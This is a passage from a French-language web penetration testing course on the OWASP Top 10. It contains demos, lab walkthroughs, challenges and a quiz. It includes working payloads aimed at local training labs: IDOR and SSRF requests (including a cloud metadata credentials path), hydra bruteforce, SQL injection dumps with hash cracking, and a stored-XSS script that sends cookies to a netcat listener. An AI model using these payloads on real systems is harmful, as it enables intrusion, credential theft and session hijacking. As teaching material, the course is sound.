4. Confondre XSS réfléchi et stocké dans le rapport (l'impact n'est pas le même).

**Correction.** Côté dev : **encoder la sortie** selon le contexte, CSP stricte.
L'en-tête `X-XSS-Protection` est déprécié — ce sont CSP + encodage qui comptent.
Côté pentester : documenter le contexte d'injection (dans quelle balise/attribut),
l'impact (session volée) et la correction proposée en A03.

### Démo 3 — IDOR : modifier un identifiant dans l'URL (app de test locale)

**Contexte.** Une application de démonstration locale (`http://127.0.0.1:8000`)
héberge un espace « Mes documents » : l'URL est `/documents/<id>` et
l'identifiant est un simple numéro séquentiel. Tu es connecté comme utilisateur 1.

**Objectif.** Accéder au document d'un autre utilisateur en modifiant seulement
l'identifiant → prouver un **IDOR** (A01).

**Commande / payload.**

```bash
# Ta propre ressource, avec ta session :
curl -s -b "session=alice-123" "http://127.0.0.1:8000/documents/1"
# -> {"id":1,"proprietaire":"alice","titre":"ma facture"}

# Même requête, identifiant suivant :
curl -s -b "session=alice-123" "http://127.0.0.1:8000/documents/2"
# -> {"id":2,"proprietaire":"bob","titre":"contrat confidentialite"}
```

**Explication ligne par ligne.** Le serveur lit `id` dans l'URL et retourne le
document **sans vérifier que la session appartient au propriétaire**. `curl -b`
envoie le cookie de session ; l'application vérifie *qu'on est connecté* mais pas
*qu'on a le droit* de voir ce document précis.

**Résultat attendu.** Le document 2 (de Bob) est retourné avec le cookie d'Alice.
En automatisant avec une boucle ou l'onglet *Intruder* de Burp sur `id=1..1000`,
on peut lister des milliers de documents (souvent avec des métadonnées sensibles).

**Analyse.** **A01 Broken Access Control**, sous-type **IDOR**. La distinction
clé : l'authentification fonctionne (on est bien Alice), c'est **l'autorisation
par objet** qui manque. C'est la faille la plus sous-estimée : pas d'erreur, juste
une réponse « 200 OK » avec les données de quelqu'un d'autre.

**Erreurs fréquentes.**

1. Croire que l'UUID protège : il complique l'énumération mais ne **remplace pas**
   le contrôle d'accès.
2. Tester seulement la ressource visible dans l'UI : le pentester énumère aussi
   **1, 2, 3, 4…** et les identifiants adjacents.
3. Oublier les **méthodes** : tester aussi `PUT`/`DELETE` sur les ressources
   d'autrui (modification/suppression), pas seulement la lecture.

**Correction.** Côté dev : vérifier la propriété côté serveur (`if
doc.proprietaire != session["user"]: 403`), utiliser des **UUID non prédictibles**
en complément, tester l'accès en lecture ET en écriture. Côté pentester : prouver
avec deux comptes (Alice et Bob) et documenter la requête exacte.

### Démo 4 — SSRF : accéder à une ressource interne via le serveur

**Contexte.** Une app locale (`http://127.0.0.1:8000`) offre « Vérifier une URL »
(prévisualisation). Derrière la machine se trouve un service d'administration
`http://127.0.0.1:8081/admin` que le navigateur externe ne peut pas joindre…
mais le serveur, lui, le peut.

**Objectif.** Détourner la fonction pour faire requêter le serveur vers l'adresse
interne, et récupérer la réponse → **SSRF** (A10).

**Commande / payload.**

```bash
# 1) Fonction normale :
curl -X POST "http://127.0.0.1:8000/check" -d "url=http://example.com/"
# -> contenu public

# 2) Détournement vers le service interne :
curl -X POST "http://127.0.0.1:8000/check" -d "url=http://127.0.0.1:8081/admin"
# -> le serveur requête son propre réseau et RELAIE la réponse de l'admin interne

# 3) Version cloud (métadata AWS/GCP/Azure) — UNIQUEMENT sur tes propres labos cloud :
curl -X POST "http://127.0.0.1:8000/check" \
     -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

**Explication ligne par ligne.**

- `-X POST` force la méthode POST vers `/check` ;
- `-d "url=..."` envoie le champ `url` que l'application va charger **avec ses
  propres droits réseau** ;
- `http://127.0.0.1:8081/admin` est une adresse **loopback** (la machine
  elle-même) : le serveur web peut la joindre ; la réponse sensible est relayée à
  l'attaquant ;
- `169.254.169.254` est l'adresse **link-local** du service de métadonnées cloud :
  elle n'est joignable que depuis les machines du cloud — le SSRF la rend
  joignable depuis l'application.

**Résultat attendu.** La réponse contient le contenu de `/admin` (par exemple la
liste des utilisateurs internes, ou des clés d'accès si métadata cloud). C'est une
**faille critique** : le serveur devient un proxy interne.

**Analyse.** **A10 SSRF**. La cause racine : l'application fait confiance à une
URL fournie par l'utilisateur et la charge sans liste blanche. Impact : accès au
réseau interne, aux interfaces d'administration, aux secrets cloud.

**Erreurs fréquentes.**

1. Ne pas tester `127.0.0.1` en premier : c'est le test minimal et le plus parlant.
2. Oublier les **redirections** : l'application peut filtrer `127.0.0.1` mais
   suivre une redirection d'un domaine autorisé vers une IP interne — tester avec
   `-L` ou un domaine que tu contrôles.
3. Oublier les **schémas** : certains SSRF acceptent `file://`, `gopher://`…
   Tester le comportement avec différents schémas (en labo).
4. Exécuter ce test contre un site réel : strictement illégal.

**Correction.** Côté dev : liste blanche d'hôtes/schémas, blocage des IP privées
et de `169.254.169.254`, résolution DNS vérifiée puis re-vérifiée, IMDSv2 côté
cloud, segmentation réseau. Côté pentester : reporter l'impact avec le contenu
interne récupéré.

### Démo 5 — Bruteforce de connexion avec hydra (labo local) + rate limiting

**Contexte.** Une app de test locale expose `/login.php`. Tu es autorisé à tester
(le labo t'appartient). La question du client : « peut-on deviner les mots de
passe ? ». **Avertissement** : cette démo illustre à la fois la faiblesse **A07**
(pas de rate limiting) et la force d'une protection — on observera le code HTTP
**429 Too Many Requests** quand l'application est protégée.

**Objectif.** Tenter de retrouver le mot de passe d'un compte connu (`admin`) à
partir de la liste publique **rockyou.txt**, en respectant un rythme raisonnable
et en n'utilisant que le labo.

**Commande / payload.**

```bash
# 0) Préparer la wordlist (fournie par Kali, compressée) :
gunzip /usr/share/wordlists/rockyou.txt.gz

# 1) Récupérer un PHPSESSID valide pour le formulaire :
curl -s -c cookies.txt "http://127.0.0.1/dvwa/login.php"
PHPSESSID=$(grep PHPSESSID cookies.txt | awk '{print $NF}')

# 2) Bruteforce ciblé (4 connexions parallèles max, débit poli) :
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form \
  "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=$PHPSESSID:F=Login failed" \
  -t 4
```

**Explication ligne par ligne.**

- `-l admin` : un seul login, fixé (`admin`) ; `-P` : la liste des mots de passe
  à essayer (`rockyou.txt`, environ 14 millions d'entrées).
- `http-post-form` : module hydra pour les formulaires de connexion HTTP POST.
- Le bloc entre guillemets a 4 parties séparées par `:` : le chemin du formulaire
  (`/dvwa/login.php`), les champs du POST avec `^USER^`/`^PASS^` comme variables,
  un en-tête optionnel (`H=Cookie\:PHPSESSID=...` pour garder la même session),
  et la condition d'échec `F=Login failed` (ce que renvoie la page quand le mot
  de passe est faux).
- `-t 4` : 4 tentatives simultanées (débit modéré et poli).
- `curl -c cookies.txt` : première visite pour obtenir le cookie de session, sans
  quoi le formulaire peut refuser les connexions.

**Résultat attendu.** Si le mot de passe d'`admin` est dans rockyou (le cas de
beaucoup de labos), hydra affiche `[80][http-post-form] host: 127.0.0.1 login:
admin password: <trouvé>`. Sur une app **protégée**, hydra finit sans succès et
l'application répond **429** au-delà du seuil.

**Analyse.** Sur le labo non protégé : **A07** confirmé — pas de limitation de
tentatives, bruteforce possible, et en plus le mot de passe est faible (dans une
liste publique). Sur le labo protégé : le rate limiting bloque l'attaque → c'est
la **défense démontrée**. Le pentester doit expliquer au client les **deux**
issues.

**Erreurs fréquentes.**

1. Lancer `hydra` sans wordlist décompressée : `rockyou.txt.gz` doit être
   décompressé une fois.
2. Oublier le cookie de session (`H=Cookie\:...`) : le formulaire peut renvoyer
   « Login failed » même avec le bon mot de passe → faux négatifs.
3. `-t 64` sur une app réelle : ton « test » se transforme en attaque par déni de
   service. Débit poli, autorisation écrite, jamais sur du hors-scope.
4. Oublier le `F=...` : hydra ne sait pas distinguer succès et échec.

**Correction.** Côté dev : **rate limiting + verrouillage progressif** (par IP et
par compte), réponse **429**, délai exponentiel après échecs, MFA, mots de passe
exclus des listes de fuites. Côté pentester : tester d'abord avec 2-3 combinaisons
connues pour **valider que la condition d'échec est juste**, puis lancer le
bruteforce.
---

## Cas réels

> **⚠️ Légal** — Ces scénarios sont des exercices de raisonnement. Dans la
> réalité, chaque test d'intrusion est cadré par un **contrat** (le « scope » :
> adresses, domaines, méthodes autorisées). Toute exploitation hors scope est un
> délit.

### Scénario 1 — « Tu audites une application bancaire : par où commencer et quelles failles chercher en priorité ? »

Un client te demande un **audit d'application web** sur sa banque en ligne. Tu as
une autorisation écrite et un scope précis. Par où commencer ?

**1. La cartographie (recon).** Avant de chercher une faille, il faut connaître le
terrain : liste des fonctionnalités (connexion, virement, consultation de comptes,
changement de mot de passe, support client), les technologies (via `whatweb`,
`curl -sI`, en-têtes de réponse), et les entrées utilisateur (formulaires, API,
paramètres d'URL). Un pentester ne teste pas « tout » : il cible les **zones à
valeur**.

**2. La priorité — penser en « argent ».** Une banque en ligne est une application
**d'argent** : chaque fonctionnalité qui déplace de l'argent ou touche aux comptes
est critique. Voici l'ordre de priorité :

| Priorité | Famille | Ce qu'on cherche | Pourquoi en premier |
| -------- | ------- | ---------------- | ------------------- |
| 1 | **A01 Access Control / IDOR** | Peut-on lire ou transférer vers les comptes des autres ? | La faille d'argent la plus fréquente : changer un `id` de compte |
| 2 | **A03 Injection** | SQLi sur la recherche de bénéficiaire, sur l'API | Lire la base = lire tous les comptes |
| 3 | **A07 Authentification** | Bruteforce, session fixée, réinitialisation de mot de passe | Le gardien de toute l'application |
| 4 | **A04 Insecure Design** | Logique métier : montant négatif, virement en double, étape contournée | Des flux « sécurisés » deviennent des fuites |
| 5 | **A10 SSRF** | Fonctions « importer », « vérifier une URL », intégrations | Accès au réseau bancaire interne |
| 6 | **A02 Crypto** | TLS, stockage des numéros de carte, hachage des mots de passe | Conformité (PCI-DSS) et données sensibles |

**3. La technique.** On commence par l'authentification (tout le reste en dépend),
puis les accès par objet (IDOR sur `compte`, `virement`, `facture`), puis les
entrées (SQLi, XSS), puis la logique métier sur les flux à argent. Chaque preuve
est **non destructive** : on lit, on copie une réponse, on capture — on ne
transfère jamais de vraie somme, on ne supprime rien.

**4. La sortie.** Le rapport classe chaque trouvaille par gravité (critique →
faible), avec : la preuve (requête/réponse), l'impact métier chiffré (« un compte
d'utilisateur peut transférer l'argent d'un autre »), et la correction. Un
pentester bancaire sait que son rapport sera relu par des juristes et des
assureurs : il écrit des faits prouvés, pas des impressions.

### Scénario 2 — « Un client te dit que son site a été piraté : comment identifier la porte d'entrée parmi les 10 catégories ? »

Un client te contacte : « On s'est fait pirater, des données ont fuité, mais on ne
sait pas par où ». Tu arrives **après** l'attaque. Comment retrouver la porte
d'entrée ?

**1. Réunir les traces (A09 d'abord).** La première question n'est pas « quelle
faille ? » mais « **avons-nous des logs ?** ». Cherche les journaux du serveur
web, de l'application, de la base, du pare-feu, les sauvegardes. S'il n'y a **pas
de logs**, note-le : c'est déjà un constat A09, et la réponse sera plus difficile.

**2. Chercher le « moment zéro ».** Dans les logs, cherche le premier événement
anormal : un accès admin à 3 h du matin, une connexion depuis une IP étrangère,
une séquence d'erreurs 4xx suivie d'un succès (signature d'un bruteforce ou d'un
balayage de paramètres), un gros transfert de données (exfiltration). En français :
remonter le film à l'envers pour trouver le premier plan suspect.

**3. Trier selon le symptôme.** Chaque symptôme a ses familles suspectes :

| Symptôme observé | Porte d'entrée probable | Catégorie OWASP |
| ---------------- | ----------------------- | --------------- |
| Les comptes clients sont vidés / lus | un `id` modifiable, un endpoint non autorisé | A01 Access Control / IDOR |
| La base entière est publiée (hashs inclus) | SQLi sur une entrée | A03 Injection |
| Des mots de passe « devinés » en masse | bruteforce sans rate limiting | A07 Authentification |
| Des pages admin modifiées, un compte admin inconnu créé | escalade de privilèges, session volée (XSS) | A01 / A03 (XSS) |
| Un fichier de config `.env` ou `.git` téléchargé | fichiers exposés | A05 Misconfiguration |
| Un service interne interrogé depuis le site public | SSRF | A10 SSRF |
| Une bibliothèque connue exploitée (ex. Log4Shell) | composant obsolète | A06 Components |

**4. Recouper avec les indicateurs.** On ne conclut pas sur un indice isolé : on
croise l'IP, l'horodatage, la ressource touchée, la réponse du serveur. Exemple :
10 000 requêtes POST sur `/login.php` entre 02:00 et 02:10 depuis la même IP,
puis une connexion réussie → bruteforce (A07) confirmé par les traces.

**5. Prioriser la preuve, pas le soupçon.** Le rapport d'incident distingue trois
choses : **fait établi** (preuve dans les logs ou la réponse), **hypothèse
plausible** (à confirmer), **indice faible**. On ne facture pas des hypothèses,
on ne bloque pas un client sur un soupçon. Et on recommande, dans tous les cas,
de renforcer A09 (journaliser) pour que la prochaine réponse se fasse en heures,
pas en mois.

---

## Laboratoires

> **⚠️ Légal** — Ces deux TP se font uniquement sur **OWASP Juice Shop** (installé
> en local : `docker run -p 3000:3000 bkimminich/juice-shop`), **DVWA** (installation
> locale Docker ou XAMPP) ou les **labs gratuits de la PortSwigger Web Security
> Academy** (https://portswigger.net/web-security). Les identifiants et payloads
> donnés fonctionnent sur ces labos ; ils ne sont pas transposables à un site réel.

### TP1 — « Parcours OWASP Juice Shop » (5 défis)

**Objectif.** Résoudre 5 défis officiels de Juice Shop couvrant : access control,
injection, XSS et misconfiguration. Chaque défi validé s'affiche sur le
**Score Board** (le tableau de bord des défis).

**Environnement.**

```bash
# Installation locale (Docker) :
docker run -d -p 3000:3000 bkimminich/juice-shop
# Puis ouvrir http://localhost:3000
```

**Étapes.**

1. **Défi « Score Board »** — Trouve le tableau de bord des défis. Indice : il est
   caché dans la route `/#/score-board`, mais un vrai pentester le découvre en
   énumérant les chemins de l'application (la liste des routes est dans le
   JavaScript de l'app). Ouvre `/#/score-board` directement.
2. **Défi « Login Admin »** — Connecte-toi comme **administrateur** sans connaître
   le mot de passe. La faille : le formulaire de connexion construit sa requête
   SQL par concaténation. Saisis `admin'--` dans le champ email et n'importe quoi
   dans le champ mot de passe.
3. **Défi « DOM XSS »** — Déclenche un XSS de type **DOM** dans le champ de
   recherche de la boutique. Saisis `<iframe src="javascript:alert(`xss`)">`.
4. **Défi « Confidential Document »** — Accède à un document interne. Indice :
   l'énumération des fichiers du serveur (`/ftp/`) révèle le dossier de la
   boutique. Ouvre `http://localhost:3000/ftp/` puis télécharge
   `acquisitions.md`.
5. **Défi « Zero Stars »** — Donne la note **0 étoile** à un produit. Indice : le
   widget d'évaluation en interface ne permet pas 0 — mais l'API, elle, accepte la
   valeur. Intercepte la requête de notation avec Burp (ou `curl`) et envoie
   `"rating": 0`.

**Indices.**

- Indice 1 : Juice Shop est une **application moderne** (SPA — *Single Page
  Application*) : toute la logique est dans le JavaScript du navigateur. L'onglet
  *Network* du navigateur et l'énumération (`gobuster`, `dirsearch`) révèlent les
  routes et l'API.
- Indice 2 : pour le défi 2, si `admin'--` ne marche pas, rappelle-toi que le
  champ à viser est celui que la requête SQL place **entre guillemets** — et que
  le commentaire SQL de SQLite (le SGBD de Juice Shop) est `--` (le reste est
  ignoré).
- Indice 3 : pour le défi 5, un formulaire « interdit » côté interface n'est pas
  une sécurité — Burp Suite ou `curl` envoie ce qu'il veut. La réponse de l'API en
  cas de succès est `{ "status": "success" }`.

**Correction.**

1. `/#/score-board` s'affiche : le défi est validé (score : 10 points).
2. Email `admin'--`, mot de passe `1` → page d'accueil avec profil admin. La
   requête SQL construite est : `SELECT * FROM Users WHERE email = 'admin'--' AND
   password = '1'` — le `--` commente la vérification du mot de passe.
3. Le champ recherche de Juice Shop insère la valeur via `innerHTML` → le payload
   `<iframe src="javascript:alert(`xss`)">` s'exécute et le défi « DOM XSS » est
   validé.
4. `/ftp/` liste les fichiers, `acquisitions.md` se télécharge → défi
   « Confidential Document » validé. En plus : les fichiers `.md` sont bloqués par
   le filtre d'extension, mais le serveur accepte la variante `%2e` (point encodé)
   en fin de nom — un classique de contournement de filtre.
5. Requête interceptée : `PUT /api/Reviews/<id>` avec `{"rating": 0}` → défi
   « Zero Stars » validé.

**Explications.** Les 5 défis couvrent : **A03 Injection** (Login Admin, SQLi),
**A03 XSS DOM** (DOM XSS), **A05 Misconfiguration** (dossier `/ftp/` listable +
routes exposées du Score Board), **A01 / A04** (Zero Stars : l'API fait confiance
à une valeur hors bornes que l'UI interdit — la conception aurait dû valider côté
serveur). Note que le même site héberge volontairement **toutes** les familles du
Top 10 : c'est pourquoi Juice Shop est le labo de référence pour ce niveau.

### TP2 — « SQLi complète : énumérer les bases, tables et extraire un mot de passe » (DVWA ou PortSwigger)

**Objectif.** Sur une application volontairement vulnérable, mener une injection
SQL **complète et non destructive** : détecter la faille, déterminer le nombre de
colonnes, énumérer les bases et les tables, extraire une table d'utilisateurs,
puis casser un hash de mot de passe.

**Environnement.** DVWA en niveau « low » (URL `/vulnerabilities/sqli/?id=1`),
ou le labo PortSwigger « SQL injection UNION attack, retrieving data from other
tables ». On travaille avec `curl` et un navigateur ; `sqlmap` est présenté en
bonus.

**Étapes (DVWA).**

1. **Détecter** : envoyer `1'` et observer l'erreur SQL.
2. **Compter les colonnes** : `1' ORDER BY 3-- -` (OK) puis `1' ORDER BY 4-- -`
   (erreur) → 3 colonnes.
3. **Localiser l'affichage** : `1' UNION SELECT 1,2,3-- -` pour voir quelle
   colonne s'affiche.
4. **Version de la base** : `1' UNION SELECT 1, version()-- -`.
5. **Énumérer les tables** : `1' UNION SELECT 1, table_name FROM
   information_schema.tables-- -`.
6. **Énumérer les colonnes de `users`** : `1' UNION SELECT 1, column_name FROM
   information_schema.columns WHERE table_name='users'-- -`.
7. **Extraire les identifiants et hashs** : `1' UNION SELECT user, password FROM
   users-- -`.
8. **Casser le hash** (celui de `admin`, MD5) :

```bash
echo -n "<hash_recupere>" > hash.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# ou avec hashcat : hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**Indices.**

- Indice 1 : l'URL encode les caractères spéciaux. Teste d'abord en clair dans le
  navigateur, puis traduis en `curl` avec `--data-urlencode` ou en encodant
  manuellement (`'` → `%27`, espace → `%20`).
- Indice 2 : `information_schema` est le catalogue système de MySQL : il contient
  `tables` (les tables) et `columns` (les colonnes) — c'est là qu'on énumère.
- Indice 3 : la requête UNION exige le **même nombre de colonnes** que la requête
  d'origine — d'où l'étape 2 obligatoire.
- Indice 4 (bonus) : `sqlmap` automatise tout ce processus :

```bash
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=<ton_session>; security_level=0" \
       --dbs --batch
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=<ton_session>; security_level=0" \
       -D dvwa -T users --dump --batch
```

**Correction.** L'étape 7 affiche les utilisateurs et leurs hashs (le hash MD5 de
`admin` est `5f4dcc3b5aa765d61d8327deb882cf99`, craqué en une seconde en
« password »). Avec PortSwigger, le payload équivalent est `' UNION SELECT
username, password FROM users--` sur la page de détail produit, et on se connecte
comme `administrator`.

**Explications.** Ce TP montre le flux complet du pentester : **détection** (le
caractère `'` casse la syntaxe), **mesure** (nombre de colonnes), **lecture**
(UNION), **extraction** (identifiants + hashs), **craquage** (hash → mot de passe
en clair). Chaque étape est non destructive : on lit la base, on ne la modifie
pas. La leçon de sécurité : une seule entrée mal validée (A03) donne accès à
toute la base — et des mots de passe mal hachés (A02) transforment ce vol en
connexions possibles (A07).

---

## Mini Challenges

> **⚠️ Légal** — Les trois défis se font exclusivement sur les labos autorisés de
> ce cours. L'énoncé fournit des indices progressifs ; la correction est à
> consulter seulement après avoir cherché.

### Challenge 1 (Facile) — Identifier la famille de faille d'après un code source

**Objectif.** Lis ce code et identifie : (a) la ou les familles OWASP en jeu,
(b) le ou les défauts précis, (c) la protection à recommander.

```python
from flask import Flask, request
import hashlib

app = Flask(__name__)

@app.route("/profil")
def profil():
    uid = request.args.get("uid")
    row = db.execute("SELECT nom, email FROM users WHERE id = " + uid)
    return f"<h1>{row.nom}</h1><p>{row.email}</p>"

@app.route("/changer-mdp")
def changer_mdp():
    mdp = request.form["mdp"]
    with open("hashs.txt", "a") as f:
        f.write(hashlib.md5(mdp.encode()).hexdigest() + "\n")
```

- **Indice 1.** Regarde comment `uid` est utilisé dans la requête SQL : est-il
  concaténé ou lié ?
- **Indice 2.** Le `row.email` est affiché dans la page : est-il encodé ?
- **Indice 3.** Cherche deux fonctions de hachage obsolètes et un contournement
  d'autorisation possible.

**Correction.** (a) **A03 Injection** (SQLi par concaténation de `uid` dans la
requête), **A03 XSS** (le `email` est réfléchi sans encodage), **A02 Crypto
Failures** (MD5), **A01 Broken Access Control** (aucune vérification que `uid`
appartient à la session). (b) Défauts précis : concaténation au lieu d'une
requête préparée ; absence d'encodage de sortie ; MD5 au lieu de bcrypt/argon2 ;
aucune comparaison `row.id == session["uid"]`. (c) Protections : requêtes
préparées (`?` + liaison de paramètres), encodage HTML en sortie, hachage salé et
lent (argon2), contrôle de propriété côté serveur avant d'afficher le profil.

### Challenge 2 (Moyen) — Exploitation XSS stocké complète (vol de cookie) en labo

**Objectif.** Sur DVWA (ou le labo PortSwigger « Stored XSS »), réaliser la
chaîne complète : poster un payload stocké, lancer un écouteur, récupérer le
cookie d'une « victime » (toi, dans un second navigateur), puis rejouer ce cookie.

- **Indice 1.** Le champ « Message » de `/vulnerabilities/xss_s/` est stocké en
  base. Le payload doit être exécuté **par le navigateur de la victime**, donc
  envoyé tel quel dans le HTML — teste d'abord `<script>alert(1)</script>`.
- **Indice 2.** L'exfiltration passe par une requête sortante : ouvre l'écouteur
  `nc -lvnp 8080` **avant** de poster le payload, et fais envoyer
  `document.cookie` vers `http://127.0.0.1:8080/`.
- **Indice 3.** Le cookie DVWA s'appelle `PHPSESSID`. Relis-le dans l'écouteur,
  puis `curl -b "PHPSESSID=<valeur>" http://127.0.0.1/dvwa/index.php` — si la page
  de session s'ouvre, l'usurpation est prouvée.

**Correction.** Étape 1 : poster `<script>fetch('http://127.0.0.1:8080/?c='+
encodeURIComponent(document.cookie))</script>` dans le champ message. Étape 2 :
l'écouteur affiche `GET /?c=PHPSESSID=abcdef...`. Étape 3 : rejouer le cookie
avec `curl -b`. Explications : le XSS stocké (A03) transforme un forum en
bombe à retardement ; l'exfiltration est une requête **sortante** que CORS
n'empêche pas (il bloque la lecture de la réponse, pas l'envoi) ; le rejeu du
cookie prouve l'usurpation de session (A07). Protections : encodage de sortie,
CSP, cookies `HttpOnly` (le cookie ne peut alors pas être lu par JavaScript —
garde-fou important, mais il ne suffit pas face à toutes les formes de XSS).

### Challenge 3 (Difficile) — SQLi UNION pour extraire une table secrète (PortSwigger)

**Objectif.** Sur le labo PortSwigger « SQL injection UNION attack, retrieving
data from other tables » (ou un labo équivalent), extraire la table contenant les
identifiants `administrator` et vous connecter. Le labo affiche un produit dont le
paramètre `category` est injectable : `https://LAB.web-security-academy.net/
filter?category=Gifts`.

- **Indice 1.** La requête d'origine est `SELECT ... FROM products WHERE category
  = 'Gifts'`. Pour casser la syntaxe sans erreur : `Gifts' UNION SELECT NULL--`
  puis augmente le nombre de `NULL` jusqu'à ce que la page s'affiche
  normalement (c'est le nombre de colonnes). La méthode des NULL est préférée ici
  car le type exact des colonnes ne compte pas à ce stade.
- **Indice 2.** Pour savoir quelle colonne est de type chaîne (pour y placer du
  texte) : `' UNION SELECT 'a',NULL,NULL--` puis déplace `'a'` jusqu'à
  l'affichage.
- **Indice 3.** Le SGBD du labo est PostgreSQL. La liste des tables est dans
  `information_schema.tables`, la liste des colonnes dans
  `information_schema.columns`. Extrais le nom d'une table contenant `users`, puis
  ses colonnes, puis les valeurs avec `' UNION SELECT username, password FROM
  users--`.

**Correction.**

```
# Nombre de colonnes (3 dans ce labo) :
filter?category=Gifts' UNION SELECT NULL,NULL,NULL--

# Table des utilisateurs :
filter?category=Gifts' UNION SELECT NULL, table_name, NULL FROM information_schema.tables--

# Colonnes de la table (ex. users_abcdef / username_abcdef / password_abcdef) :
filter?category=Gifts' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='users_abcdef'--

# Extraction :
filter?category=Gifts' UNION SELECT username_abcdef, password_abcdef, NULL FROM users_abcdef--
# puis connexion avec administrator:<mot de passe extrait>
```

Explications : la **méthode des NULL** permet de découvrir le nombre de colonnes
sans connaître les types ; `UNION` impose le même nombre de colonnes ; chaque
SGBD a son catalogue (`information_schema` pour la plupart, `sqlite_master` pour
SQLite) ; l'extraction des mots de passe (souvent hashés) relance le cycle
A02/A07. La difficulté ici : raisonner **en aveugle partielle** — on ne voit
qu'une partie de la page, donc on place les données dans la colonne affichée.
---

## Quiz

Validation du niveau : **au moins 80 % de bonnes réponses** (QCM + Vrai/Faux).

### a) 20 QCM — corrigés et expliqués

**1. Que signifie l'acronyme OWASP ?**
A) Open Web Application Security Protocol
B) Open Worldwide Application Security Project
C) Organization of Web Application Security Professionals
D) Open World Application Security Process

> **Réponse : B.** L'OWASP est une organisation à but non lucratif. Le « Web »
> a été remplacé par « Worldwide » en 2022, d'où le piège des réponses A/D.

**2. Quelle catégorie est n°1 du Top 10 2021 ?**
A) Injection
B) Broken Access Control
C) Cryptographic Failures
D) SSRF

> **Réponse : B.** L'access control est n°1 (94,52 % d'occurrence) ; l'Injection,
> qui était n°1 en 2017, est passée 3e en 2021.

**3. Un employé connecté modifie `id` dans l'URL et lit la facture d'un collègue. Quelle famille ?**
A) A03 Injection
B) A07 Identification and Authentication Failures
C) A01 Broken Access Control (IDOR)
D) A02 Cryptographic Failures

> **Réponse : C.** L'authentification fonctionne (il est connecté), c'est
> l'**autorisation par objet** qui manque → IDOR, sous-famille de l'Access
> Control.

**4. Quel hachage de mot de passe est le plus robuste ?**
A) MD5
B) SHA-1
C) bcrypt (avec sel)
D) SHA-256 seul

> **Réponse : C.** MD5 et SHA-1 sont cassés et ultra-rapides (donc craquables en
> masse). SHA-256 est sûr pour les signatures mais trop rapide pour les mots de
> passe. bcrypt/argon2/scrypt sont **lents et salés** → conçus pour les mots de passe.

**5. Quel payload ferme correctement une chaîne SQL MySQL et commente la suite ?**
A) `1 AND 1=1#`
B) `1' OR '1'='1'-- -`
C) `1" OR "1"="1`
D) `1' OR 1=1/*`

> **Réponse : B.** Le `'` ferme la chaîne, l'`OR '1'='1'` est toujours vrai, et
> `-- -` commente le reste. La réponse A oublie le guillemet de fermeture ; D
> oublie la fermeture de la chaîne.

**6. La différence entre XSS réfléchi et XSS stocké :**
A) L'un attaque le serveur, l'autre la base
B) Le réfléchi vient de l'URL et s'exécute une fois ; le stocké vient de la base et s'exécute à chaque visite
C) Le stocké nécessite un clic ; le réfléchi non
D) Aucune différence

> **Réponse : B.** Le réfléchi exige qu'on piège un lien ; le stocké persiste dans
> la base et touche tous les visiteurs. Le DOM XSS (troisième type) s'exécute dans
> le navigateur sans aller au serveur.

**7. Quel en-tête permet de restreindre les scripts exécutables à certaines origines ?**
A) `X-Frame-Options`
B) `Content-Security-Policy`
C) `Strict-Transport-Security`
D) `Set-Cookie`

> **Réponse : B.** La CSP dit au navigateur quelles origines ont le droit
> d'exécuter des scripts (et interdit les inline). `X-Frame-Options` concerne les
> iframes, `HSTS` le HTTPS.

**8. À quelle adresse spéciale le métadata service cloud est-il joignable ?**
A) `10.0.0.1`
B) `169.254.169.254`
C) `192.168.1.1`
D) `8.8.8.8`

> **Réponse : B.** `169.254.169.254` (adresse link-local) est l'endpoint de
> métadonnées d'AWS, GCP et Azure. Un SSRF vers cette adresse peut exposer les
> clés cloud.

**9. Le bruteforce d'un formulaire de connexion est principalement une faille :**
A) A01 Access Control
B) A07 Identification and Authentication Failures
C) A09 Logging
D) A06 Components

> **Réponse : B.** Absence de rate limiting = échec d'authentification. L'impact
> de ne pas journaliser ces tentatives, lui, relève de A09.

**10. Le code HTTP 429 signifie :**
A) L'utilisateur n'est pas authentifié
B) La ressource n'existe pas
C) Trop de requêtes envoyées (rate limiting actif)
D) Erreur interne du serveur

> **Réponse : C.** 429 Too Many Requests : le garde-fou du bruteforce.

**11. Quel est l'intérêt du « sel » (salt) dans le hachage d'un mot de passe ?**
A) Rendre le hash plus long
B) Garantir que deux mots de passe identiques produisent deux hashs différents
C) Chiffrer le hash
D) Accélérer le calcul

> **Réponse : B.** Le sel aléatoire casse les tables précalculées (arc-en-ciel) et
> empêche de voir d'un coup d'œil que deux comptes partagent le même mot de passe.

**12. Une fonction « importer une image depuis une URL » qui charge `http://127.0.0.1:8081/admin` correspond à :**
A) A01 IDOR
B) A03 SQLi
C) A10 SSRF
D) A05 Misconfiguration

> **Réponse : C.** Le serveur fait une requête interne au nom de l'attaquant =
> définition exacte du SSRF.

**13. La catégorie A04 (Insecure Design) se distingue des autres parce que :**
A) Elle est impossible à corriger
B) Elle concerne un défaut de conception/logique, pas une erreur de code isolée
C) Elle ne concerne que les bases de données
D) Elle est la plus rare

> **Réponse : B.** Exemple : quantité négative acceptée dans un flux de paiement.
> C'est l'architecture qui suppose des choses fausses ; un simple correctif de
> ligne ne suffit pas, il faut repenser le flux.

**14. Quel outil automatise l'exploitation d'une injection SQL ?**
A) `nmap`
B) `sqlmap`
C) `gobuster`
D) `testssl.sh`

> **Réponse : B.** `sqlmap` détecte et exploite les SQLi (bases, tables, dump).
> `nmap` scanne les ports, `gobuster` énumère les répertoires, `testssl.sh`
> audite TLS.

**15. La désérialisation non sécurisée relève de :**
A) A08 Software and Data Integrity Failures
B) A03 Injection
C) A02 Cryptographic Failures
D) A10 SSRF

> **Réponse : A.** Désérialiser un flux non fiable peut exécuter du code arbitraire
> (RCE) — une attaque contre l'intégrité du logiciel.

**16. Pourquoi la catégorie A09 (logging) est-elle dangereuse en soi ?**
A) Elle ralentit le serveur
B) Sans journaux, une intrusion n'est ni détectée ni comprise
C) Elle expose des secrets
D) Elle supprime des données

